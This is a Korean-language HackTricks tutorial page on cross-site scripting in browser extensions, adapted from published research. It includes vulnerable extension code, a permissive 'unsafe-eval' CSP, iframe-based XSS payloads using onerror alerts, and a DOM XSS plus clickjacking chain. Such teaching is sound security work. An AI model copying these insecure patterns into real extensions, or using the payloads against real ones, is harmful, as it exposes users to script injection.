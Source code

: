 # BrowExt - XSS 예제

{{#include ../../banners/hacktricks-training.md}}

## Iframe을 통한 교차 사이트 스크립팅 (XSS)

이 설정에서는 **콘텐츠 스크립트**가 Iframe을 인스턴스화하기 위해 구현되며, Iframe의 소스로 쿼리 매개변수가 포함된 URL을 사용합니다:
```javascript
chrome.storage.local.get("message", (result) => {
let constructedURL =
chrome.runtime.getURL("message.html") +
"?content=" +
encodeURIComponent(result.message) +
"&redirect=https://example.net/details"
frame.src = constructedURL
})
```
공개적으로 접근 가능한 HTML 페이지, **`message.html`**,은 URL의 매개변수에 따라 문서 본문에 동적으로 콘텐츠를 추가하도록 설계되었습니다:
```javascript
$(document).ready(() => {
let urlParams = new URLSearchParams(window.location.search)
let userContent = urlParams.get("content")
$(document.body).html(
`${userContent} <button id='detailBtn'>Details</button>`
)
$("#detailBtn").on("click", () => {
let destinationURL = urlParams.get("redirect")
chrome.tabs.create({ url: destinationURL })
})
})
```
악의적인 스크립트가 적의 페이지에서 실행되어 Iframe의 소스의 `content` 매개변수를 수정하여 **XSS 페이로드**를 도입합니다. 이는 Iframe의 소스를 해로운 스크립트를 포함하도록 업데이트함으로써 달성됩니다:
```javascript
setTimeout(() => {
let targetFrame = document.querySelector("iframe").src
let baseURL = targetFrame.split("?")[0]
let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>"
let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`

document.querySelector("iframe").src = maliciousURL
}, 1000)
```
너무 관대한 콘텐츠 보안 정책 예:
```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```
JavaScript의 실행을 허용하여 시스템이 XSS 공격에 취약해집니다.

XSS를 유발하는 대안적인 접근 방식은 Iframe 요소를 생성하고 그 소스를 `content` 매개변수로 유해한 스크립트를 포함하도록 설정하는 것입니다:
```javascript
let newFrame = document.createElement("iframe")
newFrame.src =
"chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>")
document.body.append(newFrame)
```
## DOM 기반 XSS + ClickJacking

이 예시는 [원본 게시물 작성](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)에서 가져온 것입니다.

핵심 문제는 **`/html/bookmarks.html`**에 위치한 DOM 기반 교차 사이트 스크립팅(XSS) 취약점에서 발생합니다. 문제의 JavaScript는 **`bookmarks.js`**의 일부로 아래에 자세히 설명되어 있습니다:
```javascript
$("#btAdd").on("click", function () {
var bookmarkName = $("#txtName").val()
if (
$(".custom-button .label").filter(function () {
return $(this).text() === bookmarkName
}).length
)
return false

var bookmarkItem = $('<div class="custom-button">')
bookmarkItem.html('<span class="label">' + bookmarkName + "</span>")
bookmarkItem.append('<button class="remove-btn" title="delete">x</button>')
bookmarkItem.attr("data-title", bookmarkName)
bookmarkItem.data("timestamp", new Date().getTime())
$("section.bookmark-container .existing-items").append(bookmarkItem)
persistData()
})
```
이 코드 조각은 **`txtName`** 입력 필드에서 **값**을 가져오고 **문자열 연결을 사용하여 HTML을 생성**한 다음, jQuery의 `.append()` 함수를 사용하여 DOM에 추가합니다.

일반적으로 Chrome 확장의 콘텐츠 보안 정책(CSP)은 이러한 취약점을 방지합니다. 그러나 **‘unsafe-eval’로 CSP 완화**와 jQuery의 DOM 조작 메서드 사용(이 메서드는 DOM 삽입 시 [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)에 스크립트를 전달하기 위해 [`globalEval()`](https://api.jquery.com/jquery.globaleval/)을 사용함)으로 인해 여전히 악용이 가능합니다.

이 취약점은 중요하지만, 그 악용은 일반적으로 사용자 상호작용에 의존합니다: 페이지 방문, XSS 페이로드 입력, “추가” 버튼 활성화.

이 취약점을 강화하기 위해, 두 번째 **클릭재킹** 취약점이 악용됩니다. Chrome 확장의 매니페스트는 광범위한 `web_accessible_resources` 정책을 보여줍니다:
```json
"web_accessible_resources": [
"html/bookmarks.html",
"dist/*",
"assets/*",
"font/*",
[...]
],
```
특히, **`/html/bookmarks.html`** 페이지는 프레이밍에 취약하여 **clickjacking**에 노출됩니다. 이 취약점은 공격자의 사이트 내에서 페이지를 프레임으로 설정하고, DOM 요소로 덮어씌워 인터페이스를 기만적으로 재설계하는 데 활용됩니다. 이러한 조작은 피해자가 의도치 않게 기본 확장과 상호작용하게 만듭니다.

## References

- [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
- [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{{#include ../../banners/hacktricks-training.md}}
